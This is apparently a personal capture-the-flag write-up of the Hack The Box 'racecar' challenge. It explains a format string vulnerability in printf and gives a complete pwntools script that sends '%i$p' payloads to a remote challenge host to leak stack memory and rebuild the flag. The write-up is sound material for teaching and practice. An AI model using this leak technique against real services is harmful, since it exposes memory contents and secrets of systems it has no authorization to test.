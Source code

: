
2024-07-30 15:14

Source: #htb 
 
Tags: [[Binary Exploit]] [[Format String Vulnerabilities (printf)]]
## Gist 

- We are given a binary that takes a bunch of Boolean inputs and if it matches a randomly generated value (referred to as winning) then it gives you an option to input some data that gets stored in the stack and reveals the flag.
- now, if you win then the code checks if a `flag.txt` exists in the working directory and if it doesn't then it throws an error.
- create a `flag.txt` in the working directory and populate the file with some AAAA's further run the `pwntool` script and get the answer 
`echo AAAAAAAAAAA  >  flag.txt`
### Recon

open the file `dogbolt` online and on seeing the o/p from `Ghidra` we see - 
1. that the `flag.txt` is opened in read mode and returns a pointer to `__stream`.

2. The [[fgets]] function reads a line from the file pointed to by `__stream` (the flag) and stores it in the buffer `local_3c`, which is an array of size `0x2c` (44 bytes).

3. The `read(0, __format, 0x170)` reads my input and stores it in the buffer `__format` of size `0x170` (368 bytes).
### Vulnerability Analysis 

My input is printed at the [[printf]], but our input is not checked, hence we can perform a format string attack. 
More information about format string attacks can be read here: [https://owasp.org/www-community/attacks/Format_string_attack](https://owasp.org/www-community/attacks/Format_string_attack).

If I run the binary and give many `%p`’s, data on the stack will be leaked in hexadecimal.
when doing this you will notice some addresses as `0x41414141` these will be the `AAAA` you added to your `flag.txt`999999
### Mimick user input via pwntools

```
from pwn import *

flag = ''

# Let's fuzz x values
for i in range(100):
    try:
        # Connect to server
        io = remote('94.237.59.199', 55496)
        io.sendlineafter(b'Name: ', b'anas')
        io.sendlineafter(b'Nickname: ', b'something')
        io.sendlineafter(b'> ', b'2')
        io.sendlineafter(b'> ', b'2')
        io.sendlineafter(b'> ', b'1')
        # Format the counter
        # e.g. %i$p will attempt to print [i]th pointer (or string/hex/char/int)
        io.sendlineafter(b'> ', '%{}$p'.format(i).encode())
        # Receive the response
        io.recvline()
        io.recvline()
        result = io.recv()
        if not b'nil' in result:
            print(str(i) + ': ' + str(result))
            try:
                # Decode, reverse endianess and print
                decoded = unhex(result.strip().decode()[2:])
                reversed_hex = decoded[::-1]
                print(str(reversed_hex))
                # Build up flag
                flag += reversed_hex.decode()
            except BaseException:
                pass
    except EOFError:
        pass

# Print and close
info(flag)
io.close()
```
### References
https://app.hackthebox.com/challenges/racecar

walkthroughs - 
[Hack the Box rev HTB_RACECAR (pwnjournal.github.io)](https://pwnjournal.github.io/HTB_RACECAR/)
[HTB pwn →‘racecar’. | by Apothiphis_z | Medium](https://medium.com/@fracchetto1995/htb-pwn-racecar-f9206cfd943f)
[HTB: Racecar - remoteshell.zip](https://remoteshell.zip/racecar/)
[Racecar | WriteUps (gitbook.io)](https://sayonara.gitbook.io/writeups/hackthebox/challenges/pwn/racecar)
